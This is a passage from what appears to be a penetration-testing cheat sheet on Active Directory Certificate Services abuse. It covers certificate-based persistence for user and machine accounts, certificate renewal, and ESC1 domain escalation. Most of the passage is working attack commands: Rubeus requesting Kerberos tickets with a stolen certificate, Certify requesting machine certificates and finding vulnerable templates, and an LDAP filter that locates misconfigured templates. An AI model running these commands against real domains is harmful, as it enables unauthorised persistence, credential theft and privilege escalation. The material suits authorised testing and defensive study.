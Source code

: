 After that an adversary can upload it to target and use Rubeus to request a valid TGT, for as long as the certificate is valid (default certificate lifetime is one year):

```
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /certificate:C:\Temp\cert.pfx /password:Passw0rd!
```

This approach will work *even if the user changes their password*. Combined with the **THEFT5** technique, an adversary can also persistently obtain the account's NTLM hash.



### Machine Persistence (PERSIST2)

Same as for **PERSIST1** but requesting a certificate for enrolling current machine context:

```
 # While elevated
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:Machine /machine
```

With access to a machine account certificate an adversary can use S4U2Self to obtain a Kerberos ticket to any service on the host (see [RBCD Abuse](/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd)) or generate a silver ticket.



### Certificate Renewal

* Certificate template **validity period** - determines how long an issued certificate can be used.
* Certificate template **renewal period** - determines a window of time *before the certificate expires* where an account can renew it from the issuing certificate authority.

An adversary can renew the compromised certificate before the validity period expires, and so that extend their access to AD without requesting additional ticket enrollments.




## Domain Escalation via Certificates

Discover vulnerable templates:

```
Cmd > .\Certify.exe find /vulnerable
```



### Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs (ESC1)

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.

Find template with this misconfiguration:

```
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

